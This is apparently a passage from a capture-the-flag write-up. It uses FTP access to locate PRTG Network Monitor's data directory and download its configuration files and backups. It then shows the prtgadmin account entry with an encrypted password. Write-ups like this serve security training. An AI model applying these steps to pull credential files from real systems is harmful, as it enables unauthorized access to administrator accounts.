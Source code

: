 Searching up where the default location of the configuration files for PRTG, we find:

https://helpdesk.paessler.com/en/support/solutions/articles/76000041654-how-and-where-does-prtg-store-its-data-

We know we are looking for PRTG Configuration.dat. 

```bash
%programdata%\Paessler\PRTG Network Monitor
```

```bash
cd "programdata/Paessler\PRTG Network Monitor"

ftp> ls -la
229 Entering Extended Passive Mode (|||51033|)
125 Data connection already open; Transfer starting.
09-23-25  12:52PM       <DIR>          Configuration Auto-Backups
09-23-25  12:11PM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
09-23-25  12:11PM       <DIR>          Logs (Web Server)
09-23-25  12:16PM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
09-23-25  01:34PM              1698111 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database

```

Let’s download all the configuration files:

```bash
mget "PRTG Configuration.dat" "PRTG Configuration.old" "PRTG Configuration.old.bak"
```

Searching up administrator in the file, we find:

```bash
                  10
                </grpfoldsize>
                <homepage>
                  /welcome.htm
                </homepage>
                <lastlogin>
                  43522.1088048495
                </lastlogin>
                <login>
                  prtgadmin
                </login>
                <name>
                  PRTG System Administrator
                </name>
                <ownerid>
                  100
                </ownerid>
                <password>
                  <flags>
                    <encrypted/>
                  </flags>
                  <cell col="0" crypt="PRTG">
                    JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======
                  </cell>
                  <cell col="1" crypt="PRTG">
```